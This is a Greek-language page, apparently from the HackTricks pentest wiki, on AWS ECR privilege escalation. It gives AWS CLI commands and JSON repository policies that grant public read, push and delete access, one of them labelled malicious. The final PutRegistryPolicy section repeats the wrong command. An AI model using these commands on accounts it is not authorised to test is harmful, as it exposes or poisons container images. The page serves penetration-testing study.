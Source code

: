 # AWS - ECR Privesc

{{#include ../../../banners/hacktricks-training.md}}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

Ένας επιτιθέμενος με το **`ecr:GetAuthorizationToken`** και **`ecr:BatchGetImage`** μπορεί να συνδεθεί στο ECR και να κατεβάσει εικόνες.

Για περισσότερες πληροφορίες σχετικά με το πώς να κατεβάσετε εικόνες:

{{#ref}}
../aws-post-exploitation/aws-ecr-post-exploitation.md
{{#endref}}

**Πιθανές Επιπτώσεις:** Έμμεσος privesc μέσω της παρεμβολής ευαίσθητων πληροφοριών στην κίνηση.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

Ένας επιτιθέμενος με όλες αυτές τις άδειες **μπορεί να συνδεθεί στο ECR και να ανεβάσει εικόνες**. Αυτό μπορεί να είναι χρήσιμο για την αναβάθμιση των δικαιωμάτων σε άλλα περιβάλλοντα όπου χρησιμοποιούνται αυτές οι εικόνες.

Για να μάθετε πώς να ανεβάσετε μια νέα εικόνα/να ενημερώσετε μία, ελέγξτε:

{{#ref}}
../aws-services/aws-eks-enum.md
{{#endref}}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Όπως η προηγούμενη ενότητα, αλλά για δημόσιες αποθήκες.

### `ecr:SetRepositoryPolicy`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να **αλλάξει** την **πολιτική** **αποθήκης** για να παραχωρήσει στον εαυτό του (ή ακόμα και σε όλους) **πρόσβαση ανάγνωσης/εγγραφής**.\
Για παράδειγμα, σε αυτό το παράδειγμα, η πρόσβαση ανάγνωσης παραχωρείται σε όλους.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
Περιεχόμενα του `my-policy.json`:
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "allow public pull",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

Όπως στην προηγούμενη ενότητα, αλλά για δημόσιες αποθήκες.\
Ένας επιτιθέμενος μπορεί να **τροποποιήσει την πολιτική αποθήκης** μιας δημόσιας αποθήκης ECR για να παραχωρήσει μη εξουσιοδοτημένη δημόσια πρόσβαση ή να κλιμακώσει τα δικαιώματά του.
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη δημόσια πρόσβαση στο δημόσιο αποθετήριο ECR, επιτρέποντας σε οποιονδήποτε χρήστη να σπρώξει, να τραβήξει ή να διαγράψει εικόνες.

### `ecr:PutRegistryPolicy`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να **αλλάξει** την **πολιτική αποθετηρίου** για να παραχωρήσει στον εαυτό του, τον λογαριασμό του (ή ακόμα και σε όλους) **πρόσβαση ανάγνωσης/εγγραφής**.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{{#include ../../../banners/hacktricks-training.md}}
